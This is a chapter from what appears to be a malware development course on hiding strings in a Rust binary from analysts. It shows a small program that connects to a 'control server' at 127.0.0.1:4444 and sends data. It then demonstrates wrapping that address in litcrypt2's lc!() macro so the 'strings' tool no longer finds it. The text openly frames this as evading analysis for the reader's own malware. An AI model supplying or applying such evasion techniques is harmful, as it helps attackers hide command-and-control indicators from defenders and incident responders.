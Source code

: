 +++
title = "Strings encryption"
weight = 1
+++

To make the job more difficult for analysts, it is essential to obfuscate the strings present in our binary as they contain compromising indicators.
In this part of the course, we will learn how to use a library that will significantly facilitate the automation of this task.

We will use the following basic source code as an example:
```
.
├── Cargo.lock
├── Cargo.toml
└── src
    └── main.rs
```

```rust
use anyhow::{Ok, Result};
use std::{io::Write, net::TcpStream};

fn main() -> Result<()> {
    let mut s = TcpStream::connect("127.0.0.1:4444")?;
    s.write_all(b"secret\n")?;
    Ok(())
}
```

```toml
# Cargo.toml

[dependencies]
anyhow = "1.0"
```

In this example, the compromising indicator we want to obfuscate is `127.0.0.1:4444`, which is the IP address of our control server.
Now, we will demonstrate simply using the "strings" utility that we can find this indicator:

![str1.png](../str1.png)


## Using `litcrypt2`

The `litcrypt2` library provides us with a Rust macro that takes a clear static string as an argument and encrypts it using a standard XOR algorithm at compile time. Then, when the program is executed, the string is decrypted just before its use.

The key is randomly generated at compile time, making our strings polymorphic.
Its usage is practical in our code because the macro in question is called via a simple `lc!("text")`, which keeps the code readable.

To use the library, it's very simple. We will add the dependency using the following command:
```sh
cargo add litcrypt2
```

Then, we will add the following lines to our code:
```rust
use anyhow::{Ok, Result};
use std::{io::Write, net::TcpStream};

#[macro_use]
extern crate litcrypt2;

use_litcrypt!();

fn main() -> Result<()> {
    // Now we put our string in lc!() here
    let mut s = TcpStream::connect(lc!("127.0.0.1:4444"))?;
    s.write_all(b"secret\n")?;
    Ok(())
}
```

Now, if we recompile our program and redo our test, we observe that we no longer find our indicator in clear text:

![str2.png](../str2.png)

## Conclusion

The use of this dependency will now be imperative for the continuation of our malware development. We recommend applying this macro to all your strings, even if they are not compromising indicators, as this will help to make it more difficult for analysts who try to understand the functioning of your program.
